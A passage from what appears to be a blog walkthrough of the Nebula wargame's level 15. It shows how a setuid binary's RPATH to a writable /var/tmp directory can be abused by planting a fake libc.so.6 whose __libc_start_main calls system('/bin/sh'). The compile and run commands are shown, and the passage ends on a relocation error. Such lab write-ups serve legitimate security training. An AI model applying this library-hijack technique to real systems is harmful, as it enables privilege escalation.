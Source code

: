 It's trying to load libc.so.6 from a specific location. Why is that? Let's use `readelf` to take a look

{{< highlight console >}}
evel15@nebula:/home/flag15$ readelf -d ./flag15

Dynamic section at offset 0xf20 contains 21 entries:
  Tag        Type                         Name/Value
 0x00000001 (NEEDED)                     Shared library: [libc.so.6]
 0x0000000f (RPATH)                      Library rpath: [/var/tmp/flag15]
 0x0000000c (INIT)                       0x80482c0
 .
 .
 .
{{< / highlight >}}

So it's got an `RPATH` to that location and as luck would have it we have write permissions to it. I guess we can create our own `libc.so.6` in that directory and use it to execute some code - like get ourselves a flag15 shell. Let's take a look at what symbols we're actually using

{{< highlight console >}}
level15@nebula:/home/flag15$ objdump -R flag15

flag15:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049ff0 R_386_GLOB_DAT    __gmon_start__
0804a000 R_386_JUMP_SLOT   puts
0804a004 R_386_JUMP_SLOT   __gmon_start__
0804a008 R_386_JUMP_SLOT   __libc_start_main
{{< / highlight >}}

So we've got a choice here between `__libc_start_main` or `__gmon_start`. As I am more comfortable with `__libc_start_main` I'm going to go with this.

So let us begin with the code for our library by looking up the [function declaration](http://refspecs.linuxbase.org/LSB_3.1.1/LSB-Core-generic/LSB-Core-generic/baselib---libc-start-main-.html)

{{< highlight C >}}
#include <linux/unistd.h>

int __libc_start_main(int (*main) (int, char **, char **), 
int argc, char *argv, void (*init) (void), void (*fini) 
(void), void (*rtld_fini) (void), void *stack_end) {
  system("/bin/sh");
}
{{< / highlight >}}

In theory we should get a shell now

{{< highlight console >}}
level15@nebula:/var/tmp/flag15$ gcc -shared -fPIC -o libc.so.6 mylibc.c
level15@nebula:/var/tmp/flag15$ ~flag15/flag15
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /home/flag15/flag15)
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol __cxa_finalize, version GLIBC_2.1.3 not defined in file libc.so.6 with link time reference
{{< / highlight >}}
